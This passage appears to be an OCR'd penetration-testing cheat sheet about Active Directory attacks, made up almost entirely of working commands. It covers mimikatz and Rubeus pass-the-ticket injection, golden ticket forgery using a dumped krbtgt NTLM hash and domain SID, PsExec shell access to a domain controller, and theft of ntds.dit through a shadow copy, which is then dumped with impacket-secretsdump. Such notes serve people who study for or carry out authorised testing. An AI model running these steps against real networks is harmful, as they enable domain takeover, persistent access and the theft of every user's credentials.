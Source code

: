 ```shell

# 2 CHECK TGS and copy it
dir *.kirbi

# 3 INJECT the above TGS
kerberos::ptt ...-dave@cifs-web04.kirbi

# 4. CHECK we have TGS
klist

# TO ACCESS!
ls \\web04\backup


##########
# RUBEUS #
##########
.\Rubeus.exe ptt /ticket:[ticket]
```

# ***Persistence (DA)***
***Once DA, can use the following to persist***
## Golden ticket
```shell
# 1 OBTAIN krbtgt SID and NTLM hash
lsadump::lsa /patch

# 2 Clear existing tickets
kerberos::purge

# 3 Obtain TGT 
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# 4 Open cmd
misc::cmd

#
# PsExec
PsExec.exe \\dc1 cmd.exe
```
## Shadow Copy (ntds)
```shell
# Powershell
# 1 CREATE the copy
vshadow.exe -nw -p  C:
#powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

# 2 Copy to C:\ 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

# 3 Backup the SYSTEM hive
reg.exe save hklm\system c:\system.bak

# 4 Upload to KALI

# 5. KALI
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
